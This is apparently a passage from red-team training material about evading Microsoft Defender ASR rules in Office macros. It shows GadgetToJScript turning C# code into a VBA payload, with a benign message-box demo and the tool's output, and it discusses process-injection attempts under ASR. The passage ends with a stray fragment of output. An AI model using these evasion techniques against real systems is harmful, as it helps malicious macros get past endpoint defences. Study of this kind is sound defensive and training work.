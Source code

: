 ![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/block-pinvoke-msgbox.png)

However, as soon as you try to save it to disk, Defender will block it.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/pinvoke-blocked-save.png)

I believe the rationale is that whenever you're sent a file, or you download one via a browser, Defender will delete it before it can be saved.  Even if you "open" a document from a browser, rather than "save" it, a temporary file is dropped to disk.  After some testing, I found that this rule only seems to be enforced when you P/Invoke directly from VBA - and not when it's done via [GadgetToJScript](https://github.com/med0x2e/GadgetToJScript).

Create a new .cs file and enter the code you want to execute.  G2JS requires the code to execute be in the constructor.
```cs
using System;
using System.Runtime.InteropServices;

public class Program
{
    [DllImport("user32.dll", CharSet = CharSet.Unicode)]
    static extern int MessageBoxW(IntPtr hWnd, string lpText, string lpCaption, uint uType);

    public Program()
    {
        MessageBoxW(IntPtr.Zero, "Hello from GadgetToJScript", "Hello World", 0);
    }
}
```

When we run G2JS, we provide the source code and specify the output type.
```
C:\Tools\GadgetToJScript>GadgetToJScript\bin\Debug\GadgetToJScript.exe -c TestAssembly\Program.cs -o C:\Users\Administrator\Desktop\vba -w vba -b
[+]: Generating the vba payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at:TestAssembly\Program.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\vba.vba
```

Copy the content of the VBA file, paste it into Word on WKSTN-2 and execute.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/gadgettojscript.png)

This document will save to disk - although Defender may complain about the content, it's thanks to a static G2JS signature, rather than anything to do with P/Invoke or APIs.

# Block Code Injection

_"This rule blocks code injection attempts from Office apps into other processes."_

This was another interesting study - now that we have a way to call the APIs under ASR, we can try and inject into other arbitrary processes or the process that we create.  Going straight to the basic VirtualAllocEx/WriteProcessMemory/CreateRemoteThread pattern, no shellcode was executed.  But looking at the memory regions of the target process showed that the memory region **was** created and the shellcode **was** sitting in memory.  The only call that failed was CreateRemoteThread.


[+]: Generating the vbs payload
[+]: Loading your .NET assembly:TestAssembly\bin\Debug\TestAssembly.dll
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\wmi.vbs